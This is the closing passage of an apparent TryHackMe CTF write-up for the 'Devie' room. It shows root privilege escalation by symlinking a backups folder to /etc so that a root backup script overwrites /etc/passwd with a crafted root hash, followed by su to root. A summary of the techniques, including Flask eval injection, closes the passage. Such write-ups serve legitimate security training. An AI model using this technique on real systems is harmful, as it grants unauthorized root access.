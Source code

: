 Now, we can create a symbolic link named `backups` that points to `/etc`, by doing so, the `passwd` file we created will be copied in `/etc` :  
```
gordon@devie:~$ ln /etc -s backups
gordon@devie:~$ ls
backups  flag2.txt  reports
```

Now let's wait at least one minute for the backup script to run and see if it worked :  
```
gordon@devie:~$ head /etc/passwd
root:$5$W8ZiasBBqkkOB7au$Db7uEYcWuCXdaxoeYSKZ8Uf9408hwMi2dvjEVQuIRGC:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Now let's try to login as `root` using the password we used to generate the hash for the passwd file (in my case the password is root):  
```
gordon@devie:~$ su root
Password: 
root@devie:/home/gordon#
```

Now we are root ! Let's get the root flag :  
```
root@devie:/home/gordon# cd /root
root@devie:~# ls
root.txt  snap
root@devie:~# cat root.txt
THM{***************}
root@devie:~#
```

## Conclusion

In this room, we practiced :  
- Services and port enumeration using [nmap](https://nmap.org/book/man.html)
- Python code injection using eval function in a Flask webserver
- Linux enumeration
- Decoding and getting a XOR key for encoded string
- Privilege escalation using backup script and symbolic link

Thanks for this room and thanks for reading my write ups !




